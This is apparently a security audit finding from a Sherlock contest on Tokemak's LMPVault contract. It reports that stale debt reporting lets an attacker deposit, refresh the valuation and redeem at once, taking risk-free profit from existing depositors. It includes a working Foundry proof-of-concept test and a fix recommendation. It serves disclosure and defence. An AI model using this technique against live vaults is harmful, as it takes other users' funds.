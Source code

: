 Nice Maroon Frog

high

# Risk-free profits for an attacker due to outdated debt reporting during `LMPVault` deposits
## Summary

If a destination vault has ("unrealized") profits, i.e., the debt reporting is not updated yet, or no rebalance has been performed yet, an attacker can deposit into the `LMPVault` and receive more shares than eligible. The attacker can then update the debt reporting by calling the public `LMPVault.updateDebtReporting` function and immediately redeem the shares, resulting in an instant risk-free profit for the attacker.

## Vulnerability Detail

Depositing assets (WETH) into the `LMPVault` contract determines the number of shares to be minted, [calculated internally by the `_convertToShares` function](https://github.com/sherlock-audit/2023-06-tokemak/blob/main/v2-core-audit-2023-07-14/src/vault/LMPVault.sol#L329). The `_convertToShares` function [retrieves the current asset amount](https://github.com/sherlock-audit/2023-06-tokemak/blob/main/v2-core-audit-2023-07-14/src/vault/LMPVault.sol#L591) via `totalAssets()`.

The amount of total assets is composed of the idle funds (`totalIdle`) plus the total debt of all destination vaults (`totalDebt`):

```solidity
304: function totalAssets() public view override returns (uint256) {
305:     return totalIdle + totalDebt;
306: }
```

However, both values do not represent the current state. For instance, the price of one of the destination vault's underlyer tokens can increase, resulting in profits. Similarly, the idle amount can increase due to accumulated destination vault rewards, which are based on LP staking rewards (liquidated by the `LiquidationRow` contract and distributed as `MainRewarder` rewards).

If anyone (e.g., an attacker) deposits at the time when those two values are not up-to-date, e.g., when destination vaults experience price increases, the depositor receives the same amount of shares as any previous depositor who had funds deposited for a longer amount of time. This results in unfairly distributed and risk-free profits for the depositor (attacker).

The following test case demonstrates how an attacker is able to make a risk-free deposit and realize profits due to the debt reporting not being updated before the deposit. Resulting in the ordinary user receiving less profit.

Specifically, _two_ scenarios are shown:

1. No attacker, the ordinary user realizes profits and receives all profits
2. Attacker deposits before having the debt reporting updated. This dilutes the ordinary user's profits, and the attacker can risk-free redeem and realize profits

<details>
  <summary><strong>Test case (click to reveal)</strong></summary>

```diff
diff --git a/v2-core-audit-2023-07-14/test/vault/LMPVault-Withdraw.t.sol b/v2-core-audit-2023-07-14/test/vault/LMPVault-Withdraw.t.sol
index 47b238e..9b42b7f 100644
--- a/v2-core-audit-2023-07-14/test/vault/LMPVault-Withdraw.t.sol
+++ b/v2-core-audit-2023-07-14/test/vault/LMPVault-Withdraw.t.sol
@@ -1047,6 +1047,136 @@ contract LMPVaultMintingTests is Test {
         assertEq(balAfter - balBefore, 900, "actual");
     }

+    function test_withdraw_ReceivesNoMoreThanCachedIfPriceIncreases_exploit() public {
+        _accessController.grantRole(Roles.SOLVER_ROLE, address(this));
+        _accessController.grantRole(Roles.LMP_FEE_SETTER_ROLE, address(this));
+
+        // User is going to deposit 1000 asset
+        _asset.mint(address(this), 1000);
+        _asset.approve(address(_lmpVault), 1000);
+        _lmpVault.deposit(1000, address(this));
+
+        // Deployed 200 asset to DV1
+        _underlyerOne.mint(address(this), 100);
+        _underlyerOne.approve(address(_lmpVault), 100);
+        _lmpVault.rebalance(
+            address(_destVaultOne),
+            address(_underlyerOne), // tokenIn
+            100,
+            address(0), // destinationOut, none when sending out baseAsset
+            address(_asset), // baseAsset, tokenOut
+            200
+        );
+
+        // Deploy 800 asset to DV2
+        _underlyerTwo.mint(address(this), 800);
+        _underlyerTwo.approve(address(_lmpVault), 800);
+        _lmpVault.rebalance(
+            address(_destVaultTwo),
+            address(_underlyerTwo), // tokenIn
+            800,
+            address(0), // destinationOut, none when sending out baseAsset
+            address(_asset), // baseAsset, tokenOut
+            800
+        );
+
+        assertEq(
+            _lmpVault.convertToAssets(_lmpVault.balanceOf(address(this))),
+            1e3,
+            "User's LMPVault shares are worth 1e3 assets (pre price increase)"
+        );
+
+        // Price of DV1 doubled
+        _mockRootPrice(address(_underlyerOne), 4e18); // Price increased from 2 ether to 4 ether
+
+        /**
+         * Scenario #1:
+         *
+         * Destination debt reporting is updated -> user can redeem all profits from DV1
+         */
+        uint256 snapshot = vm.snapshot();
+
+        _lmpVault.updateDebtReporting(_destinations);
+
+        assertEq(
+            _lmpVault.convertToAssets(_lmpVault.balanceOf(address(this))),
+            1.2e3,
+            "User's LMPVault shares are now worth 1.2e3 assets (post price increase)"
+        );
+
+        vm.revertTo(snapshot); // revert to state before the debt reporting got updated
+
+        /**
+         * Scenario #2:
+         *
+         * An attacker deposits into the `LMPVault` without having the destination debt reporting updated ->
+         * after depositing, the debt reporting is updated resulting in instant profits for the attacker, diluting the previous depositor (user)
+         */
+
+        // Attacker is going to deposit 1000 (1e3) asset
+        address attacker = vm.addr(0x1337);
+        vm.label(attacker, "attacker");
+
+        _asset.mint(attacker, 1000);
+
+        vm.startPrank(attacker);
+
+        _asset.approve(address(_lmpVault), 1e3);
+        _lmpVault.deposit(1e3, attacker);
+
+        assertEq(
+            _lmpVault.balanceOf(address(this)),
+            1e3,
+            "LMPVault shares received by user"
+        );
+        assertEq(
+            _lmpVault.balanceOf(attacker),
+            _lmpVault.balanceOf(address(this)),
+            "Attacker's LMPVault share balance is equalt to the user's balance"
+        );
+
+        assertEq(
+            _lmpVault.convertToAssets(_lmpVault.balanceOf(address(this))),
+            1e3,
+            "User's LMPVault shares are worth 1e3 assets"
+        );
+        assertEq(
+            _lmpVault.convertToAssets(_lmpVault.balanceOf(attacker)),
+            _lmpVault.convertToAssets(_lmpVault.balanceOf(address(this))),
+            "LMPVault shares of both attacker and user are worth the same"
+        );
+
+        vm.stopPrank();
+
+        _lmpVault.updateDebtReporting(_destinations);
+
+        /** Shares are now worth more due to the price increase of DV1 and debt reporting got updated */
+
+        assertEq(
+            _lmpVault.convertToAssets(_lmpVault.balanceOf(address(this))),
+            1.1e3,
+            "User's LMPVault shares are worth 1.1e3 assets"
+        );
+        assertEq(
+            _lmpVault.convertToAssets(_lmpVault.balanceOf(attacker)),
+            _lmpVault.convertToAssets(_lmpVault.balanceOf(address(this))),
+            "LMPVault shares of both attacker and user are still worth the same"
+        );
+
+        // Cashing in attacker's 1000 shares, which means we're entitled to at most 1100 assets
+        // We can get 400 from DV1, and we'll get the remaining 700 from DV2
+        // Should leave us with no shares of DV1 and 300 of DV2
+
+        uint256 balBefore = _asset.balanceOf(attacker);
+
+        vm.prank(attacker);
+        uint256 assets = _lmpVault.redeem(1e3, attacker, attacker);
+        uint256 balAfter = _asset.balanceOf(attacker);
+
+        assertEq(assets, 1.1e3, "returned");
+        assertEq(balAfter - balBefore, 1.1e3, "actual");
+    }
+
     function test_redeem_RevertIf_Paused() public {
         _asset.mint(address(this), 1000);
         _asset.approve(address(_lmpVault), 1000);
```

**How to run this test case:**

Save git diff to a file named `exploit-lmpvault-deposits.patch` and run with

```bash
git apply exploit-lmpvault-deposits.patch
forge test --match-test "test_withdraw_ReceivesNoMoreThanCachedIfPriceIncreases_exploit"
```

Result:

```bash
Running 1 test for test/vault/LMPVault-Withdraw.t.sol:LMPVaultMintingTests
[PASS] test_withdraw_ReceivesNoMoreThanCachedIfPriceIncreases_exploit() (gas: 1509052)
Test result: ok. 1 passed; 0 failed; 0 skipped; finished in 6.57ms
Ran 1 test suites: 1 tests passed, 0 failed, 0 skipped (1 total tests)
```

</details>

## Impact

User's profits are diluted by an attacker who deposits before the debt reporting is updated, resulting in risk-free profits for the attacker.

## Code Snippet

[src/vault/LMPVault.totalAssets](https://github.com/sherlock-audit/2023-06-tokemak/blob/main/v2-core-audit-2023-07-14/src/vault/LMPVault.sol#L305)

`totalDebt` represents the deployed assets of all destination vaults, and `totalIdle` is the amount of idle assets (WETH) sitting around in the `LMPVault` contract. Both values are potentially outdated during deposits, thus leading to "incorrect" `LMPVault` share calculations. `totalDebt` and `totalIdle` is updated by [calling the `LMPVault.updateDebtReporting` function](https://github.com/sherlock-audit/2023-06-tokemak/blob/main/v2-core-audit-2023-07-14/src/vault/LMPVault.sol#L795).

```solidity
304: function totalAssets() public view override returns (uint256) {
305:     return totalIdle + totalDebt;
306: }
```

## Tool used

Manual Review

## Recommendation

During `LMPVault` deposits, the number of shares to be minted should be calculated based on the up-to-date destination vault debt (including PnL). However, having to update the debt reporting for all destinations on every deposit might not be very gas efficient. At the time of the submission, I'm not aware of any other, gas efficient, way to mitigate this issue.
